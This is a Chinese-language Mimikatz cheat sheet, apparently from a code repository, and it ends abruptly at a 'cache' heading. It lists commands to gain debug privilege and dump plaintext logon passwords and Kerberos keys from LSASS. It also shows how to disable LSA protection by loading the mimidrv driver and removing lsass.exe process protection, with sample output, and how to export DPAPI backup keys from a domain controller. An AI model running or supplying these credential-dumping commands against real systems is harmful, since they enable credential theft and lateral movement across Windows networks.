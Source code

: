 ```
```
#提升权限
privilege::debug

#抓取密码
sekurlsa::logonpasswords

# ekeys
sekurlsa::ekeys
```

# 禁用LSA保护

如果启用了 LSA 保护，执行“sekurlsa::logonpasswords”命令会出错。

```
mimikatz # sekurlsa::logonpasswords
ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)
```

禁用 LSA 保护。我们可以通过执行“！+”将其导入到 Mimikatz

```
mimikatz # !+
[*] 'mimidrv' service not present
[+] 'mimidrv' service successfully registered
[+] 'mimidrv' service ACL to everyone
[+] 'mimidrv' service started
```

如果执行完上面程序仍然还不可以导出哈希，那么使用下面命令禁用 LSA 保护

```
mimikatz # !processprotect /process:lsass.exe /remove
Process : lsass.exe
PID 528 -> 00/00 [0-0-0]
```


此文档参考内容见[这里](https://tools.thehacker.recipes/mimikatz/modules)

# privilege
```
privilege::backup requests the backup privilege (SeBackupPrivilege)
privilege::debug requests the debug privilege (SeDebugPrivilege)
privilege::driver requests the load driver privilege (SeLoadDriverPrivilege)
privilege::id requests a privilege by its id
privilege::name requests a privilege by its name
privilege::restore requests the restore privilege (SeRestorePrivilege)
privilege::security requests the security privilege (SeSecurityPrivilege)
privilege::sysenv requests the system environment privilege (SeSystemEnvironmentPrivilege)
privilege::tcb requests the tcb privilege (SeTcbPrivilege)
```

# lsadump模块

## backupkeys
从域控制器转储DPAPI backup keys
```
mimikatz # lsadump::backupkeys /export
```

## cache
从注册表dump出缓存凭据
```